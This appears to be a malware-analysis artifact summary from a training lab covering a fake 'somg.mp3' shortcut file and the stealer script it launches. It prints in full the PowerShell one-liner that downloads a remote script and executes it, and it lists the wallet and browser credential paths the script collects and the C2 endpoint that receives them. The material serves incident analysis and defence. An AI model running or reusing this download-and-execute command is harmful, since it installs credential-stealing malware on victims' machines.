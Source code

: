 # Summary of Artifacts
## 1. Malicious Files
### somg.mp3
- Type: Windows Shortcut File (.lnk)
- Target: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
- Command Line Arguments:

```powershell
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```
- Functionality: Downloads and executes the IS.ps1 PowerShell script.

### song.mp3
- Type: MP3 Audio File
- Analysis: No malicious behavior detected during initial inspection; further metadata analysis ongoing.

## 2. Downloaded Script
### IS.ps1
- Functionality:
  - Searches for cryptocurrency wallet files in:
   - `$env:USERPROFILE\.bitcoin\wallet.dat`
   - `$env:USERPROFILE\.ethereum\keystore\*`
   - `$env:USERPROFILE\.monero\wallet`
   - `$env:USERPROFILE\.dogecoin\wallet.dat`
  - Searches for browser credential files:
    - Chrome: `$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data`
    - Firefox: `$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json`
  - Logs findings to stolen_info.txt.
  - Exfiltrates data to C2 server (http://papash3ll.thm/data).

## 3. File System Artifacts
### stolen_info.txt
- Purpose: Stores logged data about discovered wallet and browser credential files.
- Location: Created in the current working directory.

## 4. Network Artifacts
### C2 Domain: http://papash3ll.thm
- Used for exfiltration of collected data.
  - GitHub Repository: https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1
- Source of the downloaded PowerShell script.
